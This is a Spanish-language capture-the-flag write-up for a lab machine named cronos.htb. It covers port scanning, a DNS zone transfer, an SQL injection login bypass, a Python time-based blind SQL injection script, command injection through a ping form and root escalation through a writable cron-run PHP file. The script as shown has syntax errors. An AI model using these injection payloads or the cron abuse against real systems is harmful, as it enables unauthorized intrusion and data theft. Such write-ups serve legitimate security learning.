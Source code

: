 --------
- Tags: #cron-job #AXFR #sqli #sqli-timebassed #command-injection #python3 #python-scripting 
-------
## Técnicas utilizadas
- Domain Zone Transfer (AXFR)  
- SQLI (Blind Time Based) - Creating a custom Python script  
- Command Injection  
- Abusing Cron Job [Privilege Escalation]
## Procedimiento

![[Pasted image 20230718194839.png]]

#### Reconocimiento
Si lanzamos un **nmap** sobre la maquina podemos encontrar los siguientes puertos abiertos:
```ruby
# nmap -sCV -p22,53,80 10.10.10.13 -oN Ports
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-19 10:45 MST
Nmap scan report for 10.10.10.13
Host is up (0.26s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18b973826f26c7788f1b3988d802cee8 (RSA)
|   256 1ae606a6050bbb4192b028bf7fe5963b (ECDSA)
|_  256 1a0ee7ba00cc020104cda3a93f5e2220 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.54 seconds
```

Un escaneo con **whatweb** nos muestra las siguientes tecnologías corriendo por detrás:
```ruby
# whatweb 10.10.10.13
http://10.10.10.13 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.13], Title[Apache2 Ubuntu Default Page: It works]
```

Vemos que en la pagina principal vemos el **index.html** por default de **apache2**. Podemos intentar descubrir algunos directorios con **Gobuster** o **Wfuzz** pero no llegaremos a dar con nada.

------------
#### Domain Zone Transfer (AXFR)
Como no podemos ver el nombre de dominio para ver si se esta aplicando **virtual hosting** podemos tirar de herramientas como **nslookup** para intentar dar con el:
```
# nslookup
> server 10.10.10.13
Default server: 10.10.10.13
Address: 10.10.10.13#53
> 10.10.10.13
13.10.10.10.in-addr.arpa	name = ns1.cronos.htb.
```

Colocamos el nombre en el **/etc/hosts** reiniciamos la pagina y podemos ver el contenido de la pagina ahora:
![[Pasted image 20230719104958.png]]

Vemos que el puerto **53** esta abierto. Cuando el puerto **53 Domain** esta abierto, se puede intentar una transferencia de zona con la herramienta **dig**:
```
# dig @10.10.10.10 cronos.htb AXRF
```

Y podemos ver todos los subdominios disponibles para este dominio:
```
# dig @10.10.10.13 cronos.htb AXFR

; <<>> DiG 9.18.12-1~bpo11+1-Debian <<>> @10.10.10.13 cronos.htb AXFR
; (1 server found)
;; global options: +cmd
cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.		604800	IN	NS	ns1.cronos.htb.
cronos.htb.		604800	IN	A	10.10.10.13
admin.cronos.htb.	604800	IN	A	10.10.10.13
ns1.cronos.htb.		604800	IN	A	10.10.10.13
www.cronos.htb.		604800	IN	A	10.10.10.13
cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 423 msec
;; SERVER: 10.10.10.13#53(10.10.10.13) (TCP)
;; WHEN: Wed Jul 19 10:50:21 MST 2023
;; XFR size: 7 records (messages 1, bytes 203)
```

-----------------------
#### SQLI (Blind Time Based) - Creating a custom Python script  
Si ingresamos al **subdominio** que acabamos de descrubrir, encontramos un panel para atenticarnos:
![[Pasted image 20230719105132.png]]

Si intentamos alguna de las inyecciones basicas de **SQL** vemos que es completamente vulnerable, en este caso coloque **' or 1=1-- -** y pude burlar la autentificación. Podemos aprovecharnos de estos campos vulnerables para enumerar la base de datos y asi extrar información privilegiada. El tipo de inyeción SQL a la que es vulnerable es basada en tiempo, asi que para ahorrarnos mucho el tiempo vamos a programar un script en python3 para agilizar la tarea:

```python
#!/usr/bin/python3
import signal
import string
import pdb
from pwn import *

# Ctrl + C
def def_handler(sig, frame):
	print("\n[!] Saliendo...\n")
	sys.exit(1)
signal.signal(signal.SIGINT, def_handler)

# Variables globales
login_url = "http://admin.cronos.htb/index.php"
characters = string.ascii_lowercase

def makeRequest():

	p1 = log.progress("Iniciando proceso de fuerza bruta")
	p1.status("SQLi")


	time.sleep(2)

	p2 = log.progress("Database")
	
	table_name = ""
	for table in range(0,5)
		for position in range(1,10):
			for character in characters:
				post_data = {
					'username' : "admin' and if(substr((select table_name from information_schema.tables where table_schema='admin' limit %d,1),%d,1)='%c', sleep(5),1)-- -" % (table, position, character)
					'password' : 'password'
				}
			
				p1.status(post_data['username'])
				time_start = time.time()
				r = requests.post(login_url, data=post_data)
				time_end = time.time()

				if time_end - time_start > 5:
					table_name += character
					p2.status(table_name)
					break
		table_name += ", "

if __name__ == "__main__":
	makeRequest()
	
```

----------
#### Command Injection  
Una vez dentro, vemos algunas opciones para realizar. Podemos mandar un **ping** o **trace route**, y se ve en el output que se este ejecutando un comando a nivel de sistema. Intentamos colar un comando colocando **;** y vemos que, en efecto, tenemos capacidad de ejecucion remota de comandos:
![[Pasted image 20230719125017.png]]

--------------
#### Abusing Cron Job [Privilege Escalation]
Haciendo una enumeración basica del sistema, podemos encontrar que existe una tarea cron que esta ejecutandose como el usuario root:
![[Pasted image 20230719124644.png]]

Si listamos los permisos del archivo que se ejecuta con PHP, podemos observar que tenemos permisos de escritura sobre estos. Ahora solo quedaria meter el codigo que nosotros deseemos en el archivo y esperar a que se ejecute para ganar acceso como root o leer archivos de root.